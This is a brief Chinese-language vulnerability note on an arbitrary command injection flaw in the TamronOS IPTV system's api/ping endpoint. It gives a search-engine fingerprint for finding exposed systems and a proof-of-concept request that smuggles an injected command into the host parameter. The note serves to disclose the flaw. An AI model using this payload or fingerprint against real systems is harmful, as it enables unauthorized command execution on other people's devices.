

# TamronOS IPTV系统 ping 任意命令执行漏洞

## 漏洞描述

TamronOS IPTV系统 api/ping 存在任意命令执行漏洞，攻击者通过漏洞可以执行任意命令

## 漏洞影响

<a-checkbox checked>TamronOS IPTV系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TamronOS-IPTV系统"</a-checkbox></br>

## 漏洞复现

登录页面如下


漏洞POC为

```plain
/api/ping?count=5&host=;id;
```

